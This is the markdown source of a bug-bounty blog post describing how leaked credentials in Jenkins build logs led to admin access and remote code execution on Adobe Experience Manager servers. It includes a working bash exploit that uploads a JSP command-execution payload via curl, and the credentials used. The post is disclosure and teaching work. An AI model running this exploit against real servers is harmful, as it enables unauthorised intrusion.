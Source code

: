 ```yaml
---
layout: post
title: "Exposed Jenkins to RCE on 8 Adobe Experience Managers"
author: Corben Leo
---
```


### <font>&#128075;&#127996; introduction:</font>
This is a short write-up of how I progressed from discovering a Jenkins instance to getting shells on 8 Adobe Experience Manager servers and gaining edit access to a company's main sites. Along with this blog-post, I'm releasing a tool called <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a>.

<b><i>Note:</i></b> as this was a finding in a private program, I'm not allowed to disclose any details that could be used to identify them. For this reason, I've changed and redacted details.

### <font>&#128373;&#65039;recon</font>
Back in June, I decided to change my workflow and automate more of my recon. After doing so, I decided to perform a test scan against a private program I was in. After the scan finished, I started looking through the HTTP titles of every subdomain it had discovered.

One in particular caught my eye: `Dashboard [Jenkins] - https://wcm-pipeline03.dev.test.example.com`

I visited the subdomain and found that it was indeed running Jenkins. In the past I have had success getting Code Execution on Jenkins via Orange Tsai's <a target='_blank' rel='noopener noreferrer' class='link' href='https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html'>research</a>, so I tried that but unfortunately it was patched.

However, the `/signup` endpoint was enabled, so I registered for an account and logged in, and started looking at the builds: `https://wcm-pipeline03.dev.test.example.com/view/all/builds`.

I'm a huge sucker for Continuous Integration applications and I've done some <a target='_blank' rel='noopener noreferrer' class='link' href='https://edoverflow.com/2019/ci-knew-there-would-be-bugs-here/'>research</a> on finding secrets in build logs on TravisCI. Since this Jenkins server was running the latest version and there weren't any public vulnerabilities in it, I decided to go down a different route: finding secrets in build logs. 

Just like with Travis-CI, it would be an incredibly tedious task to manually retrieve every build log and environment variable for every job, so I automated all of it. 

### <font>&#127881; jenkinz -&gt; secretz -&gt; rce</font>
<a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>jenkinz</a> is the the tool that came out of this; it retrieves every build (log and environment variables) for every job ever created and run on a given Jenkins instance and saves them all to an output directory.

After running the tool, I had a large amount of data through. `ripgrep` is great for this - after searching for a few different strings, I found credentials in one of the logs:

```
found credentials for id: aem-ingress -> username: aemingress Password: Goodbye2017!
```

By reading through the entire log file, it was evident that this job was a script that logged into several Adobe Experience Manager servers, performed some tasks, then emailed a developer. I had discovered and tested a few of their AEM instances in the past, so I went back through my historical recon data, searched on Github, and found 8 of their AEMs. 


The credentials worked and I was an admin on all of them.


Next, I took a <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/0ang3el/aem-hacker/blob/master/aem-rce-sling-script.sh'>bash script</a> by <a target='_blank' rel='noopener noreferrer' class='link' href='https://twitter.com/0ang3el'>0ang3el</a> and modified it to only run the `uname` command:


```bash
#!/usr/bin/bash

if [ "$#" -ne 3 ]; then
	echo "Usage: $0 URL USERNAME PASSWORD"
	exit 2
fi

url="$1"
username="$2"
password="$3"

payload=$(cat <<-EOT
<%@ page import="java.io.*" %>
<% 
	Process proc = Runtime.getRuntime().exec('uname -a');
	
	BufferedReader stdInput = new BufferedReader(new InputStreamReader(proc.getInputStream()));
	StringBuilder sb = new StringBuilder();
	String s = null;
	while ((s = stdInput.readLine()) != null) {
		sb.append(s + "\\\\n");
	}
	
	String output = sb.toString();
%>
<%=output %>
EOT
)

echo "$payload" > /tmp/html.jsp

#Create rcetype
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/apps/rcetype" -Fhtml.jsp=@/tmp/html.jsp > /dev/null

# Create rcenode
curl -k -s -X POST -H "Referer: $url" -u "$username:$password" "$url/rcenode" -Fsling:resourceType=rcetype > /dev/null

echo "Now navigate to $url/rcenode.html"
```


Running it with the credentials I'd found:


```bash
$ bash aem-rce-sling.script.sh http://aem-instance.example.com "aemingress" "Goodbye2017!"

Now navigate to https://aem-instance.example.com/rcenode.html
```

After navigating to the URL, the `uname -a` command executed.


Not only did I have RCE though, I had full privileges and could've deleted or edited all of their main sites, including their subsidaries in AEM:

`http://aem-instance.example.com/editor.html/content/example/example_com/us/en/home/index.html`


## outro:

I had a super fun time with this vulnerability and I enjoyed tooling it. Hopefully in your bug-bounty, pentesting, and/or red-teaming journey, the <a target='_blank' rel='noopener noreferrer' class='link' href='https://github.com/lc/jenkinz'>tool</a> is useful!

<br>Happy hacking,<br>
**Corben Leo**
- <a class="link" href="https://twitter.com/hacker_"  target="_blank" rel="noopener noreferrer">https://twitter.com/hacker_</a>
- <a class="link" href="https://hackerone.com/cdl" target="_blank" rel="noopener noreferrer">https://hackerone.com/cdl</a>
- <a class="link" href="https://bugcrowd.com/c" target="_blank" rel="noopener noreferrer">https://bugcrowd.com/c</a>
- <a class="link" href="https://github.com/lc"  target="_blank" rel="noopener noreferrer">https://github.com/lc</a>
